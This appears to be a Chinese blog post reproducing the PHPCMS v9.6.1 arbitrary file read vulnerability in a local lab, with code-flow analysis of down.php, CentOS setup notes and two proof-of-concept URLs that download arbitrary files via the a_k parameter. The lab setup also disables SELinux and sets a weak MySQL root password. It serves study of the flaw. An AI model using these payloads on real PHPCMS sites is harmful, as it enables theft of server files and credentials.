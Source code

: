 ```yaml
---
layout: post
title: "phpcms v9.6.1任意文件读取漏洞复现"
date: 2017-11-07
description: "漏洞复现"
tag: 渗透姿势
---
```


看着网上的大佬们的分析过程复现了一下phpcms<br>v9.6.1的任意文件读取，头次用centos搭建网站遇到了不少坑，记录一下此次复现

### 准备工作
#### 使用操作系统
靶机系统：Centos7.3<br>
攻击系统：windows 7

#### 知识铺垫
1.php原生parse_str方法，会自动进行一次urldecode，第二个参数为空，则执行类似extract操作。<br>
2.原生empty方法，对字符串""返回true。<br>
3.phpcms中sys_auth是对称加密且在不知道auth_key的情况下理论上不可能构造出有效密文。

#### 漏洞分析
按照网上教程分析了PHPCMS v9.6.0和v9.6.1，发现phpcms/modules/content/down.php有如下修改<br>
代码对比[网址](http://tool.oschina.net/diff/)<br>
![](/images/2017-11-07/01.png)
![](/images/2017-11-07/02.png)
![](/images/2017-11-07/03.png)
这里主要修改了init()和download()
![](/images/2017-11-07/04.png)
1.通过GET获取到$a_k参数内容，然后$a_k参数内容能够进入到sys_auth函数进行解密。<br>
2.Parse str函数会自动对传入的值将其根据&分割，然后解析到具体变量并注册变量，并且对内容进行URL解码操作。(比如我们传入‘id=123%27%20and%201=1%23’,经过parse_str函数后变成了id=123’ and 1=1#。)<br>
3.$f变量不能为空，这里正好通过parse_str处理后注册了$f，说明$f变量的内容是我们可控的。<br>
![](/images/2017-11-07/05.png)
1.这里判断你的$f是不是有非法后缀，或者使用’:\’，’..’，只要匹配到其中一种都是违法的。<br>
2.然后判断是不是外链文件’http://’或’ftp://’或未使用’://’，系统生成一个$pc_auth_key，以这个$pc_auth_key为auth_key加密一个拼接了各种参数的url，上面的$f也在里面，然后生成一个$downurl，也就是下载文件的链接。<br>
![](/images/2017-11-07/06.png)
1.这里讲GET获取的$a_k变量内容进行解密，解密时使用$pc_auth_key为auth_key，跟上面在init函数里面加密使用的同一个auth_key，这里加密解密就对应起来了。<br>
2.变量$a_k通过一次safe_replace函数处理，再次通过parse_str函数处理。<br>
![](/images/2017-11-07/07.png)
1.继续对$f变量进行后缀和特殊字符的判断。<br>
2.将$s和$f拼接起来，在来判断fileurl的后缀。(如果fileurl是远程文件就直接跳转了，如果不是就放到else里面处理)<br>
3.获取文件后缀，然后加上一个日期为文件名，最后将fileurl中的’<’和’>’替换为空。<br>
4.将fileurl既为文件名传入到file_down函数进行下载。<br>

打开phpcms/libs/functions/global.func.php
![](/images/2017-11-07/08.png)
这里没有做任何处理<br>
所以一路走下来，我们可控的参数进入到了fileurl既文件路径和filename既文件名里面。
如果我们输入一个ph，一个>p，然后相加就是ph>p，经过替换后就变成了php，而在这个过程中，正好有$s和$f拼接的过程：
```
$s=’test.ph’ + $f=’>p’ = $fileurl=’test.ph>p’,最后替换成了个 $fileurl=’test.php’
```
### 漏洞复现
#### 靶机搭建
Centos搭建lamp（linux+apache+mysql+php）<br>
常规安装
```
# yum -y install httpd php mysql mysql-server php-mysql
```
由于长期使用Ubuntu的原因，在这里遇到了3个大坑，这里我列一下解决方案

1）linux 下安装phpcms文件权限不可写<br>
将/var/www/html/phpcms目录所属用户和组修改为apache
```
# chown -R apache:apache phpcms/
# find phpcms/* -type f -exec chmod 644 {} \;
# find phpcms/* -type d -exec chmod 755 {} \;
```
这种方法发现并不能解决<br>
查阅资料后发现是防火墙的问题<br>
setenforce是Linux的selinux防火墙配置命令 执行setenforce 0 表示关闭selinux防火墙。
```
# getenforce
Enforcing（强制模式）
# setenforce 0
Permissive
```
这时候再看phpcms权限变为可写<br>
注：SELinux 宽容模式（Permissive）强制模式（Enforcing）

2）Centos 下yum install mysql-server没有可用包<br>
Centos下默认好像是MariaDB数据库，自带源无法安装mysql-server
```
# wget http://repo.mysql.com/mysql-community-release-el7-5.noarch.rpm
# rpm -ivh mysql-community-release-el7-5.noarch.rpm
# ls -1 /etc/yum.repos.d/mysql-community*
	/etc/yum.repos.d/mysql-community.repo 
 	/etc/yum.repos.d/mysql-community-source.repo
# yum install mysql-server
```

3)安装完Mysql后登录报错ERROR 1045 (28000)
mysql 用户没有操作/var/run目录的权限，所以pid文件无法创建，导致登陆时无法建立 进程信息文件，登陆进程就无法开启，自然无法登陆。<br>
第一步：<br>
修改 /etc/my.conf
```
#pid-file=/var/run/mysqld/mysqld.pid(注释这条)
pid-file=/var/lib/mysqld/mysqld.pid（新增内容）
```
mysql用户无法cd /var/run/。修改为mysql可以有权限的目录后再执行mysql就进入数据库了。<br>
第二步：
```
/etc/init.d/mysql stop (service mysqld stop)
/usr/bin/mysqld_safe –skip-grant-tables
```
连接mysql
```
mysql> use mysql;
mysql> update user set password=password("123456") where user="root";
mysql> flush privileges;
mysql> exit
```
然后
```
# ps –a | grep mysql
25225 ?        00:00:00 mysqld_safe
25373 ?        00:00:01 mysqld
# kill -9 25225 25373
# /etc/init.d/mysql start(service mysqld start)
```
#### 漏洞利用
这个漏洞利用总共有两种方法，不过实际区别是用户是否登录<br>

方案一（前台注册并登录）：
访问如下url：
```
http://127.0.0.1/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3Dphpcms%2fmodules%2fcontent%2fdown.ph%26f=p%3%252%2*77C
```
![](/images/2017-11-07/09.png)
这段poc是用来下载phpcms/modules/content/down.php文件的
![](/images/2017-11-07/10.png)
此时捕获到的att_json就是a_k参数的值
```
http://127.0.0.1/index.php?m=content&c=down&a=init&a_k=
```
![](/images/2017-11-07/11.png)
获取到下载按钮
![](/images/2017-11-07/12.png)
点击下载
![](/images/2017-11-07/13.png)
![](/images/2017-11-07/14.png)
下载到的文件正是down.php

同理可以任意下载其它文件

方案二（用户未登录）：
```
http://127.0.0.1/index.php?m=wap&c=index&a=init&siteid=1
```
![](/images/2017-11-07/15.png)
获取当前的siteid
![](/images/2017-11-07/16.png)
```
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
```
并POST userid_flash,值为获取到的siteid
```
userid_flash= 9024Wq6sW-RX5X41P0sSfZdBK5C2gM5vQyQ_9ytr
```
![](/images/2017-11-07/17.png)
拿到att_json，然后按照方案一构造a_k即可
![](/images/2017-11-07/18.png)

### 复现心得

之前一直使用ubuntu，用Centos搭建网站特别不顺畅，权限低到离谱，从kali的root到ubuntu的sudo权限，再到centos一开始真心不适应。搭建网站中遇到了很多坑，不过所幸都一一解决了。<br>
对phpcms分析让我对代码审计方面也得到了长进，从网上了解到了一些web漏洞挖掘的心得，和构造payload的过程，感觉收获还是很大的。<br>

参考网址：
	[【漏洞分析】PHPCMS V9.6.1 任意文件读取漏洞分析（含PoC，已有补丁）])(http://bobao.360.cn/learning/detail/3805.html)<br>
	[phpcms v9.6.1任意文件下载漏洞分析及EXP](http://blog.nsfocus.net/phpcms-v9-6-1-arbitrary-file-download-vulnerability-analysis-exp/)<br>
	[PHPCMSv9.6.1任意文件读取漏洞的挖掘和分析过程](https://segmentfault.com/a/1190000009279116#articleHeader4)
